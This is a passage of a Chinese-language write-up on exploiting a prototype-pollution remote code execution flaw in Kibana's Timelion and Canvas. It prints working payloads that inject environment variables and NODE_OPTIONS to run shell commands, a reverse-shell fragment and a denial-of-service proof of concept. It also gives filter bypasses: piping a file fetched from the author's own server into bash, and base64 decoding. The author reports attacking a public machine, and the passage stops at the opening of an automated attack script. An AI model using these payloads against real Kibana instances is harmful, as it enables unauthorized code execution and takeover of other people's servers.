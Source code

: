 通过报错中的 `max` 关键字我觉得可能是payload超过了长度限制，所以我们甚至可以提取反弹shell命令中的一些特殊字符单独验证，反正我们也只是想看看过滤情况。payload 举例：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("echo 'b >& /dev/ 0>&1' > /tmp/aaa.txt");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
但是因为我怕 Kibana，我不能经历再次失败的打击，我没有去验证真实的过滤情况。


## Bypass web 层特殊字符过滤：

**方法一：curl http://ip/x.txt | bash **

先在自己的公网 VPS 搭建简单的 web 服务，在上面放一个文件用于写入命令，比如：

![title](https://leanote.com/api/file/getImage?fileId=5daa9914ab64412e1f000168)

然后通过 curl 此文件管道到 bash 就能查看命令执行的结果：

![title](https://leanote.com/api/file/getImage?fileId=5daa9989ab644130200001b0)



**方法二：base64 -d**
使用 `base64 -d` 也可以绕过特殊字符过滤：

![title](https://leanote.com/api/file/getImage?fileId=5daa9a93ab64412e1f00016b)



# Bonus

DoS POC：

``` shell
.es(*).props(label.__proto__.x='ABC')
```

# 注：

一些人问为什么打开一个 Kibana 没有 Canvas，因为在 Kibana 的一些较低版本里面，默认是没有 Canvas 这个插件（Plugin）的。要通过修改 Kibana 的 config 目录下的那个 yml 文件开启此插件。但是一些较高版本，是默认开启了此插件的，搭好了直接就有。所以还是版本差异的问题。

那没有这个 Canvas 能不能打呢？当然不能啊。因为此 RCE 漏洞的原理就是开启 Canvas 子进程。

然后此 RCE 漏洞的话我找了一个公网机器打了一次，反弹 shell 快速稳定，问题不大。



# 自动化攻击脚本


```
#!/usr/bin/env python2
# coding:utf-8
# Build By LandGrey

import re
import sys
import time
import random
import argparse
import requests
import traceback
from distutils.version import StrictVersion

def get_kibana_version(url):
    headers = {
```